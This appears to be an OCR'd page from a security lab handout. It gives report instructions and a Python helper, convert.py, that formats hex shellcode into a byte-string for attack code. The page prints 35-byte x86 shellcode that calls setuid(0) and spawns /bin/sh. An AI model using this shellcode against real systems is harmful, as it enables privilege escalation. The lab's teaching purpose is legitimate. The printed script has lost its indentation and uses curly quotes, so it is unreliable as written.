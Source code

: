 You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.

### A Using the shellcode in attacking code

In actual attacks, we need to include the shellcode in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but converting the machine code printed above to the array
assignment in Python and C programs is quite tedious if done manually, especially if we need to perform this
process many times in the lab. We wrote the following Python code to help this process. Just copy whatever
you get from the xxd command (only the shellcode part) and paste it to the following code, between the
lines marked by """. The code can be downloaded from the lab’s website.
Listing 4: convert.py

```convert.py
# !/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and

# copy and paste the machine code part to the following

ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""
sh = ori_sh.replace("\n", "")
length = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = ’shellcode= (\n’ + ’ "’
for i in range(length):
s += "\\x" + sh[2*i] + sh[2*i+1]
if i > 0 and i % 16 == 15:
s += ’"\n’ + ’ "’
s += ’"\n’ + ").encode(’latin-1’)"
print(s)
```

The convert.py program will print out the following Python code that you can include in your attack
code. It stores the shellcode in a Python array.

```bash
$ ./convert.py
Length of the shellcode: 35
shellcode= (
"\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
"\x0b\xcd\x80"
).encode(’latin-1’)
```
